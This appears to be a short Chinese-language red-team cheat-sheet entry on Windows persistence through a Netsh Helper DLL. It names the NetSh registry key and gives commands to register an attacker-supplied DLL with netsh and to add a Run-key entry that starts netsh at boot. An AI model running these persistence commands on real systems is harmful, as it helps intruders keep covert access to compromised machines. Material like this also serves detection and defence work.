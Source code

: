 ## Netsh Helper DLL

Netsh 是一个 Windows 实用程序，管理员可以使用它来执行与系统网络配置相关的任务，并对基于主机的 Windows 防火墙进行修改

Netsh 功能可以通过使用DLL 文件来扩展，需要本地管理员级别的权限，启动时会留下cmd

### 注册表位置

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh
```

### 利用方法

```cmd
# 添加 DLL
netsh add helper <path to dll>

# 添加自启动注册表
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v netsh /t REG_SZ /d "cmd /c start /b C:\Windows\System32\netsh"
```
